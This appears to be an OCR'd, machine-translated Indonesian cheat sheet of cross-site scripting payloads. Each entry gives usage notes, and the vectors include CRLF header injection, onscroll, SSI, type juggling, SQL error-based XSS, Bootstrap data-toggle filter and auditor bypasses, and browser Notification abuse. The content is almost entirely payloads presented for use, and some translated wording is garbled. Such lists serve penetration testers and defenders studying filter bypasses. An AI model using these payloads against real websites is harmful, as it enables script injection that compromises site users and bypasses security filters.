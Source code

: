 Karakter Pengembalian Carriage (% 0D) dan Line Feed (% 0A). Vektor untuk Gecko dan Webkit,

masing-masing.

      %0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0A%0D%0A%3Cscript%3Ealert(1)%3C/script%3E
    
      %0D%0ALocation:%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(1)%3C/script%3E

> Onscroll Universal XSS Vector

Gunakan untuk XSS tanpa interaksi pengguna saat menggunakan pengendali event onscroll. Ini bekerja dengan

alamat, blockquote, body, center, dir, div, dl, dt, form, li, menu, ol, p, pre, ul, dan h1 ke h6

Tag HTML.

     <p style=overflow:auto;font-size:999px onscroll=alert(1)>AAA<x/id=y></p>#y

> XSS in SSI

Gunakan saat ada injeksi Server-Side Include (SSI).

     <<!--%23set var="x" value="svg onload=alert(1)"--><!--%23echo var="x"-->>

> Type Juggling

Gunakan untuk melewati kondisi "if" yang cocok dengan angka dalam perbandingan longgar.

     1<svg onload=alert(1)>
    
     1"><svg onload=alert(1)>

> SQLi Error-Based XSS

Gunakan di titik akhir di mana pesan kesalahan SQL dapat dipicu (dengan kutipan atau backslash).

     '1<svg onload=alert(1)>
    
     <svg onload=alert(1)>\\

> Bootstrap XSS Vector

Gunakan ketika ada perpustakaan bootstrap hadir di halaman. Itu juga memotong Auditor Webkit, adil

klik di mana saja di halaman untuk memicu. Karakter apa pun dari nilai href dapat dikodekan dalam HTML, bypass

filter.

    <html data-toggle=tab href="<img src=x onerror=alert(1)>">

> Browser Notification

Gunakan sebagai alternatif untuk mengingatkan, meminta, dan mengonfirmasi popup. Itu membutuhkan penerimaan pengguna (1 st

payload) tetapi begitu pengguna telah mengotorisasi sebelumnya untuk situs itu, yang ke-2 dapat digunakan.

      Notification.requestPermission(x=>{new(Notification)(1)})
    
      new(Notification)(1)
